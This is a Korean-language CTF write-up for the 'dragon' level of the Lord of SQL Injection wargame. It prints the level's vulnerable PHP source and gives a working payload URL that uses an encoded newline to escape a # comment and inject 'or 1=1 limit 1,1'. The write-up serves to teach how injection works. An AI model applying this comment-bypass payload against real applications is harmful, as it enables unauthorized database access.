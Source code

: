 # Lord of SQL Injection No.20 - dragon
## 문제 출제 의도 
한줄 주석을 우회하는 방법을 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```
~~~
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'"
~~~
+ id값 뒤에 있는 # 주석 때문에 sql문 조작을 할 수 없게되었다.
+ #은 한줄주석이기 떄문에 줄 바꿈을 하고 다음 줄에서 SQL Injection을 시도한다.
## Solution
1. 개행 문자 이용
~~~
http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw=%0aor 1=1 limit 1,1 -- -
~~~
+ 이는 개행으로 한 줄 주석을 무시하여 문제가 풀린다.